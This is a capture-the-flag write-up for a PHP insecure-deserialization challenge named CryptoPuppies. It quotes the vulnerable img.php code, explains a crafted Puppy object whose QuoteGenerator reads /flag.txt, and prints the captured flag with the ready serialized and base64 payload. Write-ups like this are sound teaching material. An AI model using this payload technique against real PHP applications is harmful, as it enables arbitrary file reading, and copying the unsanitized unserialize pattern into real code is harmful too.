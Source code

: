 # CryptoPuppies
The challenge CryptoPuppies is one on serialization.
The goal of the exploit is to create a serialized object that, once de-serialized in the server, executes arbitrary instructions.

## Vulnerability
The vulnerability is located in ```src/img.php```. 
```php
<?php
include 'data.php';

$b64puppy = $_GET['puppy'];
// decode
$puppy = base64_decode($b64puppy);
$puppy = unserialize($puppy);
$puppy->getImg();
?>
```
This php code de-serializes the object in input without sanitizing it. 
Therefore, arbitrary code can be executed, thanks to the call to getImg().

## Exploit
In the attached file ```crypto_exploit.php```, an object of the class Puppy is created.
The ```__construct``` is modified to take for input a string, that then uses as quote.
Also, a custom QuoteGenerator class is used, and has as path of the file of the quotes, the one that contains the flag. 
It then still picks a random one - although there is only one in the file - and then prints it on the image.

This object is then declared, serialized and then the base64 representation is echoed.

The code is then compiled using a PHP compiler/interpreter, and the output is submitted in the website. 
The flag is printed on the image.

flag{what_a_nice_puppy_you_got!You_can_bring_him_home_now}

```
O:5:"Puppy":4:{s:8:"eyeColor";a:3:{i:0;i:28;i:1;i:160;i:2;i:131;}s:7:"eyeSize";i:57;s:10:"background";a:3:{i:0;i:235;i:1;i:89;i:2;i:233;}s:5:"quote";O:14:"QuoteGenerator":1:{s:9:"quoteFile";s:9:"/flag.txt";}}Tzo1OiJQdXBweSI6NDp7czo4OiJleWVDb2xvciI7YTozOntpOjA7aToyODtpOjE7aToxNjA7aToyO2k6MTMxO31zOjc6ImV5ZVNpemUiO2k6NTc7czoxMDoiYmFja2dyb3VuZCI7YTozOntpOjA7aToyMzU7aToxO2k6ODk7aToyO2k6MjMzO31zOjU6InF1b3RlIjtPOjE0OiJRdW90ZUdlbmVyYXRvciI6MTp7czo5OiJxdW90ZUZpbGUiO3M6OToiL2ZsYWcudHh0Ijt9fQ==
```